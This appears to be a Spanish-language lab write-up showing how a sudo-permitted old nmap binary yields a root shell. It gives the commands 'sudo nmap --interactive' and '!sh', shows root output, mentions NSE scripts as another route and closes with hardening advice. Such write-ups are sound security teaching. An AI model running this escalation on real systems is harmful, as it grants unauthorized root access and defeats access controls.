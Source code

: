 
### Acción:

Ejecutamos `nmap` en modo interactivo para intentar acceder a una shell con permisos de root:

```bash
sudo nmap --interactive
```

Una vez dentro del modo interactivo, escribimos lo siguiente:

```nmap
nmap> !sh
```

---

### Resultado:

```bash
# whoami
root
# hostname
72723e0a6904
```

---

### Explicación:

La orden `!sh` dentro del shell interactivo de `nmap` lanza una shell del sistema. Como `nmap` fue ejecutado con privilegios de `root`, la shell resultante también se ejecuta con esos privilegios. Esta es una **escalada directa a root**.

**Nota:** Este comportamiento sólo está disponible en versiones antiguas de `nmap`. Las versiones actuales han eliminado el modo interactivo, por lo que es importante verificar qué versión se está ejecutando.

---

### Alternativa: usar scripts NSE

Si el modo interactivo está desactivado, otra vía podría ser abusar del soporte de scripts NSE (Nmap Scripting Engine), aunque esto depende de la versión y configuración.

---

### Conclusiones:

- Ejecutar `nmap` como `root` puede ser muy peligroso si se trata de una versión vulnerable o antigua.
    
- El binario `nmap`, aunque parezca inofensivo, puede utilizarse para obtener una shell con privilegios elevados.
    
- Este tipo de configuración debe evitarse. En su lugar, se recomienda restringir los binarios permitidos o emplear wrappers seguros.
    